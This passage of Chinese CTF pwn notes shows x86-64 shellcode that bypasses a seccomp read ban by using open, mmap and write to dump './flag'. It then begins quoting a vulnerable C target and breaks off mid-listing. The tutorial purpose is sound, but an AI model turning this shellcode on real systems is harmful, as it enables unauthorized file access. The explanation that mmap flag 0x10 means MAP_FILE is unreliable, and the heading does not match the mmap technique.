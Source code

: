 # 0x02. execve + read

如果题目禁用了`read`系统调用，但没有禁用`open`，则可以通过`mmap`的系统调用将文件内容映射到内存中，再`write`。

需要注意的是，对于Linux系统调用，6个参数的传递寄存器分别为`rdi`、`rsi`、`rdx`、`r10`、`r8`、`r9`。与Glibc的传参有所不同。

函数原型：
```c
    long sys_mmap(unsigned long addr, unsigned long len,
			unsigned long prot, unsigned long flags,
			unsigned long fd, off_t pgoff);
```

```masm
    mov rax, 0x67616c662f2e
    push rax
    mov rdi, rsp
    xor edx, edx
    xor esi, esi
    push SYS_open
    pop rax
    syscall
    
    mov rdi, 0x10000
    mov rsi, 0x1000
    mov rdx, 7
    push 0x12
    pop r10
    push 0x3
    pop r8
    xor r9, r9
    push SYS_mmap
    pop rax
    syscall
    
    push 1
    pop rdi
    push 0xFF   /* write size */
    pop rdx
    mov rsi, 0x10000
    push SYS_write
    pop rax
    syscall
```

注意，内核的`mmap`函数的`flag`参数和glibc的不太一样，0x10表示映射文件`MAP_FILE`，0x2表示私有映射`MAP_PRIVATE`，0x20表示匿名映射`MAP_ANONYMOUS`。这里需要使用`MAP_FILE | MAP_PRIVATE`才能完成映射。

上述代码可以成功攻击下面的C代码：

```c
#include <sys/mman.h>
#include <stdio.h>
#include <sys/prctl.h>
#include <linux/seccomp.h>
#include <linux/filter.h>
#include <stdlib.h>
#include <unistd.h>
#include <linux/unistd.h>
#include <linux/audit.h>
#include <stddef.h>

int main(){
	char* space = mmap((void*)0x600000000000, 0x1000, PROT_READ | PROT_WRITE | PROT_EXEC, MAP_ANON | MAP_SHARED, -1, 0);
	read(0, space, 0x1000);
```